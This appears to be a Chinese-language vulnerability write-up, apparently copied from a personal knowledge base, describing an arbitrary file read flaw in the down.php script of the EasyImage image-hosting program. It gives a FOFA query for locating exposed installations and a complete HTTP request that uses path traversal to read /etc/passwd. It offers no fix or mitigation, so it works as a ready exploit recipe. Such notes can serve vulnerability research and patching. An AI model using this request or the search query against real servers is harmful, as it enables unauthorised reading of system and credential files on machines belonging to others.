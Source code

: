 # EasyImage down.php 任意文件读取漏洞

# 一、漏洞简介
EasyImage：一个简洁的开源图床程序，支持多文件上传,简单无数据库,返回图片url,markdown,bbscode,html的一款图床程序。EasyImage down.php处存在任意文件读取漏洞。

# 二、影响版本
+ EasyImage

# 三、资产测绘
+ fofa`app="EasyImage-简单图床"`
+ 特征

![1707125244360-cc612d17-1933-4111-a35d-07b9aad451e9.png](./img/Drmx3enNJaW6hyss/1707125244360-cc612d17-1933-4111-a35d-07b9aad451e9-049032.png)

# 四、漏洞复现
```plain
GET /application/down.php?dw=../../../etc/passwd HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 6.2) AppleWebKit/532.1 (KHTML, like Gecko) Chrome/41.0.887.0 Safari/532.1
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1707125276920-4187c6bb-f5ee-46b2-b1bc-8b32f6ab67a7.png](./img/Drmx3enNJaW6hyss/1707125276920-4187c6bb-f5ee-46b2-b1bc-8b32f6ab67a7-888962.png)



> 更新: 2024-02-29 23:55:41  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/xvk2q1dxwph2krte>